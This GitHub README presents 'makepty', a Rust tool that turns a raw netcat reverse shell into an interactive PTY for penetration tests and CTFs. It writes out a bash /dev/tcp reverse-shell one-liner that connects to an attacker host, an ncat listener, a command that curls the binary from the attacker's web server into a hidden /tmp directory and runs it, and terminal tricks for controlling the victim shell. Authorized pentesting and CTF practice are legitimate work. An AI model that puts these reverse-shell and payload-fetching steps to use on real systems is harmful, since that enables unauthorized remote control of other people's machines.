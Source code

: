 # makepty
Create a PTY linked to stdin and stdout


This tool creates a pseudo-TTY which takes input from standard input and prints to standard output.
I made it as another potential option for building a PTY on a raw (netcat) shell during a penetration test or CTF.
It is similar to `python3 -c 'import pty;pty.spawn("/bin/bash")'` but also works on platforms that lack Python.

I was inspired to create it after I took over a FreeBSD box and found that it didn't have python and my pyinstaller version only worked on Linux.

## Why

When taking over a target computer, pentesters will generally use a reverse shell with methods such as `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

This initial shell will have no PTY, thus allowing only non-interactive commands to be run.
A hacker generally needs to upgrade to a PTY to be able to easily run commands such as `sudo` or `vi` remotely.
`makepty` is a simple binary that will upgrade a raw shell to a TTY shell.

## Platforms

Tested: Linux, FreeBSD

Untested, but might work if you compile it: MacOS, Windows

## Usage

On attacker system, start a listener via for example: `ncat -lvp 9443`
On victim, get a reverse shell through for example `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

Now you will have a raw shell on your ncat listener. To upgrade, put makepty on the target system and run it. Example:
On attacker, make a directory and move makepty for target system to it, then run a web server:
```sh
mkdir /tmp/web
cp ~/tools/makepty-freebsd /tmp/web/
cd /tmp/web
python3 -m http.server 8082
```
On victim, download it and run it:
```sh
mkdir /tmp/.w
cd /tmp/.w
curl http://$hackerip:8082/makepty-freebsd > makepty # or `ftp http://$hackerip:8082/makepty-freebsd` as `ftp` on BSD is a non-interactive curl-like command
chmod +x makepty
./makepty bash # or any other shell install on the system. Defaults to `sh`
```

You will now have a PTY shell, as can be tested with `stty -a`.

To further improve your experience, set your own shell to raw mode so you can use interactive commands such as `vi`, and use ctrl+c, shell completion, etc. on the victim.

On attacker shell:
```sh
# First run ctrl+Z to background the reverse shell, then
stty size # get your TTY size, example 55 212 is rows 55, columns 212
stty raw -echo && fg # set your TTY to raw mode and then foreground the shell
# Now you're in the victim shell again
stty rows 55 columns 212 # send TTY size info to PTY on victim
# You can now run commands such as `vi` in fullscreen on your reverse shell
```

### usage example

[![asciicast](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj.svg)](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj)

## Building

This project uses the Rust nightly `strip` feature to reduce binary size. As such, you'll need Rust nightly to build it. Assuming you've got Rust installed, you'll have to install the nightly toolchain with:
```sh
rustup component add rust-src --toolchain nightly
rustup +nightly target add x86_64-unknown-linux-musl
```

Then build:
```sh
cargo +nightly build --target x86_64-unknown-linux-musl --release
```

Cross-compiling for FreeBSD uses https://github.com/wezm/freebsd-cross-build with edit mentioned in https://github.com/wezm/freebsd-cross-build/issues/3 to add the nightly toolchain.

## License

MIT license (see [LICENSE-MIT](LICENSE-MIT) file)
